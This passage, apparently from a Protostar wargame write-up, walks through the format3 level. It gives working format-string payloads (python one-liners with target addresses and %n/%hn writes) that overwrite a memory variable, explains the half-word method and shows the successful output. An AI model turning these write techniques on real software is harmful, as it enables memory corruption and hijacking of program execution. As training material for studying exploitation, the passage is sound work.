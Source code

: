 ``` shell
user@protostar:/opt/protostar/bin$ python -c 'print "\xf4\x96\x04\x08\xf5\x96\x04\x08\xf6\x96\x04\x08\xf7\x96\x04\x08%52x%12$n%17x%13$n%173x%14$n"' | ./format3

you have modified the target :)
```

### Two-Write Method

This method reduces the number of writes to **two**, which is more efficient, as adjacent memory isn't prone to be corrupted. 

Instead of writing **one byte at a time**, we write **two bytes at a time** using `%hn`, which performs a half-word write (16 bits). This avoids overflow issues that occur when writing **byte-by-byte**.

We will overwrite target (0x080496f4) with 0x01025544 by splitting it into two half-word writes:

1. First half-word: 0x5544 &#8594; Written to 0x080496f4
2. Second half-word: 0x0102 &#8594; Written to 0x080496f6

Since each write covers two bytes, we only need to reference two stack slots (**$12** and **$13**) instead of four.

The trick here is that we should **start with smallest value first**, which is `0x0102`. Since we already have 8 bytes due to our memory addresses (**0x080496f4** and **0x080496f6**), the number of additional bytes we need to print for `0x080496f6` is:

$$
0x0102 - 8 = 250
$$

``` shell
user@protostar:/opt/protostar/bin$ python -c 'print "\xf6\x96\x04\x08\xf4\x96\x04\x08%250x%12$hn"' | ./format3

target is 01020000 :(
```

Nice~ We have successfully overwritten `0x0102`, now we just need to calculate the rest:

$$
0x5544 - 258 = 21570
$$

``` shell
user@protostar:/opt/protostar/bin$ python -c 'print "\xf6\x96\x04\x08\xf4\x96\x04\x08%250x%12$hn%21570x%13$hn"' | ./format3

you have modified the target :)
```

## Format 4

Description:

>format4 looks at one method of redirecting execution in a process.
><br><br> Hints:
>objdump -TR is your friend
><br><br>This level is at /opt/protostar/bin/format4
